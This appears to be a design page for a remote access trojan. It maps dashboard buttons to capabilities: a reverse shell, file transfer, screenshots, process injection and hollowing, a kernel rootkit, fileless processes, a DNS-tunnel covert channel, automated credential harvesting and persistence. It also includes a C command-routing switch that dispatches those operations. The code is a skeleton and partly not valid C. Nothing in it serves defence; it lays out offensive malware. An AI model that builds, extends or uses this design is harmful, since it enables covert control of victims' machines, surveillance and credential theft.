 ## 🎮 DASHBOARD BUTTON MAPPING

### Basic Controls (Phase 1):
- **[Shell]** → Opens reverse shell
- **[Files]** → Browse/download/upload files  
- **[Screenshot]** → Capture screen
- **[Sysinfo]** → Get system information
- **[Kill]** → Terminate RAT

### Advanced Controls (Phase 2):
- **[Process List]** → Enumerate with injection scores
- **[Inject]** → Select process & technique, execute injection
- **[Migrate]** → Move RAT to another process
- **[Hollow]** → Process hollowing attack

### Elite Controls (Phase 3):
- **[Install Rootkit]** → Deploy kernel module
- **[Ghost Process]** → Create fileless process
- **[DNS Tunnel]** → Establish covert channel
- **[Harvest All]** → Automated credential theft
- **[Persistence Pack]** → Install multiple persistence methods

---

## 💾 BACKEND COMMAND ROUTING

```c
// In native_payloads/core/commands.c
int handle_command(command_packet_t* cmd) {
    switch(cmd->type) {
        // Phase 1 Commands
        case CMD_SHELL:
            return cmd_shell(cmd->data, cmd->len, output, &out_len);
            
        case CMD_SCREENSHOT:
            return capture_screenshot(output, &out_len);
            
        // Phase 2 Commands  
        case CMD_INJECT:
            injection_params_t* params = (injection_params_t*)cmd->data;
            return perform_injection(params->pid, params->technique, 
                                   params->payload, params->payload_len);
            
        // Phase 3 Commands
        case CMD_INSTALL_ROOTKIT:
            return install_kernel_rootkit();
            
        case CMD_GHOST_PROCESS:
            ghost_params_t* ghost = (ghost_params_t*)cmd->data;
            return ghost_process(ghost->payload_path, ghost->target_path);
            
        case CMD_DNS_TUNNEL:
            dns_params_t* dns = (dns_params_t*)cmd->data;
            return setup_dns_tunnel(dns->server, dns->domain);
            
        case CMD_HARVEST_CREDS:
            return harvest_all_credentials();
    }
}
```

---